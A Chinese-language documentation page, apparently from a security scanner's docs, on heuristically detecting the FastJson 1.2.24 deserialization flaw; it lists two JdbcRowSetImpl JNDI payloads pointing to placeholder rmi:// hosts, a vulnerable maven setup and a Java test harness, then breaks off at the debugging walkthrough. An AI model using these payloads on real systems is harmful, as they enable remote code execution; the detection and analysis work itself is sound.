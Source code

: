 ```yaml
---
sidebar_position: 5
---
```


# FastJson 启发式检测

## FastJson 启发式检测
Fastjson payload有很多版本，有些检测工具简单粗暴的将所有payload打了一遍，效率很低，本篇文章意在找出适用范围最广的payload，高效的完成漏洞检测

下面是两个最通用的payload

```JSON
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}

{"x":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1/aaa","autoCommit":true}}
```

## fastjson漏洞分析
### 环境搭建
首先创建一个maven项目，pom.xml中加入fastjson依赖

```HTML
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
</dependencies>
```

测试代码如下

```java
import com.alibaba.fastjson.JSONObject;

public class fastjsonTest {
    public static void main(String[] args){
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://x.x.x.x:1099/jndi\", \"autoCommit\":true}";
        JSONObject.parse(payload);
    }
}
```

## 调试跟踪
### 第一个payload
解析json部分代码在fastjson-1.2.24.jar!/com/alibaba/fastjson/parser/DefaultJSONParser.class#
parseObject中
